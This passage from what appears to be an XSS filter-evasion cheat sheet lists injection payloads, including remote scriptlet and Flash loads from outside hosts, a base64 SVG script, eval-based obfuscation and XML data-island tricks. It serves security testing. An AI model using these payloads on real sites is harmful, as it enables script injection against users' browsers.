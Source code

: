 `<OBJECT TYPE="text/x-scriptlet" DATA="http://xss.rocks/scriptlet.html"></OBJECT>`

### EMBED a Flash Movie That Contains XSS


Click here for a demo: ~~http://ha.ckers.org/xss.swf~~


`<EMBED SRC="http://ha.ckers.org/xss.swf" AllowScriptAccess="always"></EMBED>`

If you add the attributes `allowScriptAccess="never"` and `allownetworking="internal"` it can mitigate
this risk (thank you to Jonathan Vanasco for the info).

### EMBED SVG Which Contains XSS Vector

This example only works in Firefox, but it's better than the above vector in Firefox because it does not require the user to have Flash turned on or installed. Thanks to nEUrOO for this one.

`<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>`

### Using ActionScript Inside Flash for Obfuscation

```
a="get";
b="URL(\"";
c="javascript:";
d="alert('XSS');\")"; 
eval(a+b+c+d);
```

### XML Data Island with CDATA Obfuscation

This XSS attack works only in IE and Netscape 8.1 in IE rendering engine mode) - vector found by Sec Consult while auditing Yahoo:

```
<XML ID="xss"><I><B><IMG SRC="javas<!-- -->cript:alert('XSS')"></B></I></XML> 
<SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN>
```

### Locally hosted XML with embedded JavaScript that is generated using an XML data island

This is the same as above but instead refers to a locally hosted (must be on the same server) XML file that contains your cross site scripting vector. You can see the result here:

```
<XML SRC="xsstest.xml" ID=I></XML>  
<SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>
```

### HTML+TIME in XML
